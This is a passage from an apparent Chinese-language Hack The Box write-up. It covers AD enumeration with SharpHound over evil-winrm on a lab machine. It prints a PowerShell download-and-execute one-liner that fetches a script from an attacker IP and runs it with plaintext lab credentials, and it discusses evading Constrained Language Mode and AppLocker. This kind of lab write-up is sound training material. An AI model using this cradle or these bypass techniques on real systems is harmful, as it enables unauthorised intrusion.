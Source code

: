 ![](img/b207cf3ab5c347d275a06e06cacd5b1b.png)

然后我试图加载`SharpHound`的`PowerShell`版本，这是`Bloodhound`的一个入口(注意，这是一个坏的 opsec，因为我已经有一个 CLM 被启用的提示)。

```
iex(new-object net.webclient).downloadString('[http://10.10.14.3/s.ps1'](http://10.10.14.3/s.ps1')); invoke-bloodhound -collectionmethod All --LdapUsername Amanda --Domain HTB --LdapPassword Ashare1972 --EncryptZip --ZipFilename sif0
```

![](img/a89cfad2312c0340f089f3120fef15da.png)

我被拒绝了。然后我决定确认一下我是否真的在 CLM，事实上我也在:

![](img/7daedbb8340afab575f247414e967510.png)

我尝试了常见的旁路，即降级到`PowerShell`版本 2，但这在`evil-winrm`上不起作用，至少根据我的经验。

![](img/feda49038c9348a124913b795f1772f8.png)

然后，我决定将文件放在一个通常绕过`[Applocker](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/what-is-applocker)`的目录中(基本上是另一种防止未授权的二进制文件和应用程序)。
